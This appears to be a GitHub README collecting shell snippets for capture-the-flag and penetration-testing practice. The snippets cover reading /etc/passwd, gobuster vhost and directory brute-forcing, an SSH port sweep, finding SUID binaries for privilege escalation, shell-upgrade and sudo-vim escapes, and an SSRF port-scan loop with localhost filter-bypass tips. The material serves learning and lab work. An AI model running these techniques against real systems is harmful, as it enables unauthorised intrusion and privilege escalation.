 # Some useful shell scripts
I upload some useful shell scipts here now and then.

### **Clone the repository**
```bash
git clone https://github.com/century300/useful-shell-scripts ~/Downloads/useful-shell-scripts && cd ~/Downloads/useful-shell-scripts && chmod +x *
```
<br/>

### **read_etc-passwd_file.sh**
- This script read the /etc/passwd file and output each user shell and directory
```bash
./read_etc-passwd_file.sh
```
- Or you can run the code in terminal
```bash
while IFS=: read -r f1 f2 f3 f4 f5 f6 f7
do
 echo "User $f1 use $f7 shell and stores files in $f6 directory."
done < /etc/passwd
```
<br/>

### **Bash for loop**
- for loop syntax
```bash
for OUTPUT in $(Linux-Or-Unix-Command-Here)
do
	command1 on $OUTPUT
	command2 on $OUTPUT
	commandN
done
```
- Usage 1: gobuster brute-force using SecLists subdomains wordlist to discover virtual hosts names, then use **_for loop_** and dirbuster wordlist to find the _flag_ in there
```bash
gobuster vhost -u http://TargetWebsite.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30

for vhost in subDomain1 subDomain2 subDomain3; do gobuster dir -u http://${vhost}.TargetWebsite.com -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,txt -t30 -o Output.txt; done
```
- Usage 2: **ssh_spam.sh**: check to see which one is the useful/real ssh service in CTF
```bash
# You can run the ssh_spam.sh directly
./ssh_spam.sh

# Or you can copy the script to your terminal to run directly
for port in {1..65535}
do
	printf "$port"
	ssh -o StrictHostKeyChecking=no -p $port <target_IP>
done
```
<br/>

### **Privilege escalation by using SUID**
- **-u=s** denotes files owned by the root user, **2>/dev/null** means to redirect all errors to /dev/null (aka ignoring all errors)
```bash
# Find SUID executables
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null

# Find SUID
find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
<br/>

### [**Reverse Shell Tricks**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```bash
# Get a tty shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Upgrade shell to a tty
SHELL=/bin/bash script -q /dev/null

# Set terminal
export TERM=xterm-256color

#Switch to the background with CTRL+Z

# If sudo -l in user has access to /usr/bin/vim
sudo vim -c ":!/bin/sh"
```
<br/>

### SSRF attack to see which port is open
- We can use bash script instead of Burp Suite Intruder attack
```bash
# Run the script directly
./ssrf-open-ports.sh

# Run the source code directly in the terminal.
# 127.0.0.1 can be replaced with its Decimal (2130706433) or Hexadecimal (0x7f000001) counterparts to bypass restrictions.
for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.xx.xx:8080/attack?url=http://127.0.0.1:${x} \
        -w %{size_download});
    if [ $cmd != 1040 ]; then
        echo "Open port: $x"
    fi
done
```
